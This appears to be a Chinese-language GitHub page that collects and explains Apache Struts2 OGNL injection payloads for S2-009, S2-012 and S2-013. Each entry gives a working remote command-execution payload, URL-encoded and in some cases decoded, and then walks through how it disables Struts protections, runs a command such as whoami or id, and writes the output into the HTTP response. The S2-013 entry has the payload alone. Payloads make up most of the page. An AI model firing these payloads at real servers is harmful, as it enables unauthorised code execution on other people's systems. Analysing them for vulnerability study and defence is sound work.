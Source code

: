 ## S2-009

```java
?age=12313&name=(%23context[%22xwork.MethodAccessor.denyMethodExecution%22]=+new+java.lang.Boolean(false),+%23_memberAccess[%22allowStaticMethodAccess%22]=true,+%23a=@java.lang.Runtime@getRuntime().exec(%27whoami%27).getInputStream(),%23b=new+java.io.InputStreamReader(%23a),%23c=new+java.io.BufferedReader(%23b),%23d=new+char[51020],%23c.read(%23d),%23kxlzx=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),%23kxlzx.println(%23d),%23kxlzx.close())(meh)&z[(name)(%27meh%27)]
```

url解码后:

```java
?age=12313&name=(#context["xwork.MethodAccessor.denyMethodExecution"]= new java.lang.Boolean(false), #_memberAccess["allowStaticMethodAccess"]=true, #a=@java.lang.Runtime@getRuntime().exec('whoami').getInputStream(),#b=new java.io.InputStreamReader(#a),#c=new java.io.BufferedReader(#b),#d=new char[51020],#c.read(#d),#kxlzx=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),#kxlzx.println(#d),#kxlzx.close())(meh)&z[(name)('meh')]
```

> S2-009的payload和S2-005的payload类似,在设置xwork.MethodAccessor.denyMethodExecution属性时没有直接赋值为false,而是通过新建一个值为false的bool对象来进行赋值的,也不再需要对@、#进行unicode编码.其余的就和S2-005的payload类似了.

> 剩下的流程就是执行命令,并把结果回显出来.以whoami为参数调用java.lang.Runtime类的getRuntime().exec()方法进行执行命令,然后以执行的命令结果的输入流为参数新建一个java.io.DataInputStream对象来获取执行命令结果的输入流,之后新建一个数组,然后把在输入流中读取的字符赋值给这个数组.然后以这个数组为参数新建一个字符串对象,之后调用org.apache.struts2.ServletActionContext类的getResponse()方法获取一个response对象,最后调用response对象的getWriter().println方法输出这个字符串,于是就能看到了命令回显内容.

## S2-012

```java
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"whoami"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

> payload基本上和S2-001的payload基本一样.

> payload首先把以whoami为参数构造一个字符串数组,然后以这个字符串数组为参数构造了一个ProcessBuilder对象,然后设置ProcessBuilder对象的redirectErrorStream属性为true,然后调用start方法新建一个进程执行whoami这个命令.然后的一系列操作就是执行的结果给回显.调用ProcessBuilder类对象的getInputStream()来获取上一步新进程的输入流.以变量b为参数新建一个InputStreamReader对象用来把字节流转换为字符流,然后以变量c为参数新建一个BufferedReader对象在字符输入流中读取文本,缓冲各个字符,从而实现字符、数组和行的高效读取.然后创建了一个长度为50000的数组,再以e为参数调用BufferedReader对象的read方法,把读取的字符串放到e这个数组内.之后在上下文环境获取一个com.opensymphony.xwork2.dispatcher.HttpServletResponse类对象,这个类用于处理response.然后以变量e为参数新建了一个字符串对象,然后调用HttpServletResponse对象的.getWriter().println方法输出这个字符串对象到缓冲区.最后调用getWriter().flush()把缓冲区的数据输出,于是就能看到了命令回显内容,并调用getWriter().close()方法来关闭这个缓冲区.

## S2-013

```java
?a=%24%7B%23_memberAccess%5B"allowStaticMethodAccess"%5D%3Dtrue%2C%23a%3D%40java.lang.Runtime%40getRuntime().exec(%27id%27).getInputStream()%2C%23b%3Dnew%20java.io.InputStreamReader(%23a)%2C%23c%3Dnew%20java.io.BufferedReader(%23b)%2C%23d%3Dnew%20char%5B50000%5D%2C%23c.read(%23d)%2C%23out%3D%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2C%23out.println(%27dbapp%3D%27%2Bnew%20java.lang.String(%23d))%2C%23out.close()%7D
```
